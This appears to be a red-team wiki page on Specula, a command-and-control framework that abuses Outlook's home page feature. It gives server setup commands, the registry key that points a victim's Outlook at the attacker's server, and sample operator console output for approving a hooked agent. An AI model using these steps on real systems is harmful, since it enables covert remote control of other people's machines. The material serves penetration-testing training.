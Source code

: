 # Outlook Home Page Abuse - Specula

## Theory

[Specula ](https://github.com/trustedsec/specula)is a framework designed to enable interactive operations of an implant within the context of Outlook. It achieves this by setting a custom Outlook homepage via registry keys that call out to an interactive Python web server. This web server serves custom patched VBScript files that execute a command and return a string response.

Despite the belief that the Outlook home page functionality had been patched ([CVE-2017-11774](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2017-11774)), it was discovered that the associated Registry values continue to be utilized by Outlook, even in current Office 365 installs.

To establish a C2 channel, an attacker can modify a single non-privileged Registry key, creating the `REG_SZ` value of `URL` under `HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox` and pointing it to the validation URL on the Specula server:

## Practice

{% tabs %}
{% tab title="Setting up" %}
You can use IP addresses, but a recommendation is to use a DNS record. In this example we are going to use DNS. Start by pointing a DNS record towards your public IP of the server you will be using as a Specula server. Let us pretend that we created an A-record named demo.specula.com with the value of our public IP.

#### HTTPS

If you are planning to use SSL (Recommended) you will need to request the certificates. This guide shows how to do that with free let's encrypt certificates. We first need to install certbot:

```
apt install certbot
```

Next you want to make sure that you have allowed inbound communication on port 80/443. Then we request a certificate using the example of demo.specula.com (change this to your environment):

```
certbot certonly --non-interactive --agree-tos --email <SOME EMAIL ADDRESS> --standalone --preferred-challenges http -d demo.specula.com
```

This will produce certificate files so note down the paths to them, since you will need to reference them when starting Specula for the first time. In our example we want to keep these lines:

```
/etc/letsencrypt/live/demo.specula.com/fullchain.pem
/etc/letsencrypt/live/demo.specula.com/privkey.pem
```

The path to fullchain.pem will be the input when Specula asks for the _cert\_file_ as part of the startup and the privkey.pem will be to the _key\_file_.

#### Setting up Specula

First you should install a python virtual environment. You can of course install to the global package root, but this can cause issues that are later hard to diagnose.

If you're unfamiliar with python virtual environments and just want to know what to type a basic install would look like

```
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

#### Starting Specula

```
sudo python specula.py
```

Since this is the first time you are starting Specula it will ask you for a variety of options, which will then be stored and used for future runs. The settings will be stored in a file called _specConfig.ini_. If you ever want to reset your settings and start over this file can be removed.
{% endtab %}

{% tab title="Hook an agent" %}
### Edit Registry

To hook an agent, all you need to do is to create the registry `REG_SZ` value of `URL` under `HKCU\Software\Microsoft\Office\16.0\Outlook\WebView\Inbox` and add the value pointing to your validation url on the Specula server.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

To avoid issues with ActiveX, it is recommended to adjust a few settings. Users can generate a full reg file with the recommended settings by running `generatehooker` from the root of the Specula menu. This reg file can then be copied to a Windows client with Outlook and imported. To ensure the registry key takes effect, Outlook should be stopped and restarted if it is running.

```
SpeculaC2> generatehooker 
```

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Approve Agent

The agent should now show up in Specula and depending on setup, you will either need to approve it manually (if initial\_checkin\_count is set to 0) or you will have to wait until the necessary checkins have been reached before Specula will generate an encryption key and send back to the agent. On the Outlook side when everything is completed, it will change view from Inbox to Calendar. Once you change view back to Inbox you have a fully Specula agent running.

```powershell
# List agents
SpeculaC2> agents
id  hostname:username             ip address        refreshTime  Lastseen              approved    encryptionkey            api installed/verified
1   DEMO-VICTIME-PC:User           192.168.206.172   10           08/14/2024-11:50:56   NO (Checkin: 2 of 0)N/A                      False/False

# Approve Agent
SpeculaC2> approveAgent 1
Agent will be approved on next callback
```
{% endtab %}

{% tab title="Execute" %}
TODO
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://trustedsec.com/resources/tools/specula" %}

{% embed url="https://github.com/trustedsec/specula/wiki" %}
